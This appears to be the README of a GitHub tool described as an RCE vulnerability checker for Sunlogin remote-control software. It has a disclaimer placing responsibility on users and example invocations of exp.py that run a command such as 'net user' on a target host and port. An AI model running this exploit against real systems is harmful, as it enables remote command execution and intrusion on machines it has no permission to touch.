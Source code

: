 # 向日葵RCE漏洞检测工具

## 使用需知
由于传播、利用此工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。


```shell
python exp.py -a [--host] -p [port] -c [--command] 
python exp.py -a 192.168.28.250 -p 20038 -c "net user"
```
![image-20220218041904120](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220218041904120.png)
